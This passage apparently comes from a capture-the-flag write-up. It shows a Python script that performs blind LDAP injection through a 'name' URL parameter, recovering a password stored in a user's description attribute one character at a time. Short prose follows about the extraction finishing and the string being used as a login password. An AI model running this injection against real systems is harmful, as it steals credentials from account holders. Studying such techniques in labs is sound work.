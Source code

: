 ```python
        payload = {
                'name': 'technician)(%26(objectClass=user)(description='+ pwd + char + '*)'
            }

        payload_str = urllib.parse.urlencode(payload, safe='"#$%&\'*()+,-./:;<=>?@[\]^_`{|}~')
        response = requests.get(url,params=payload_str,proxies=proxies)
        if "technician" in response.text:
            print(char)
            pwd += char
            nothingfound=False
            break

    if nothingfound:
        print("NOTHING FOUND Adding * to the end")
        pwd += "*"
    print("Current password: " + pwd)
```

After running this for a while we could see that the ending * kept being duplicated over and over. This lead me to believe that the string was fully extracted. looking at the randomness of this description i guessed it might have been the password for the login page. If we cut off the trailing * we'd end up with the following string:
![Pass brute](/assets/img/Analysis/Analysis_11.png)
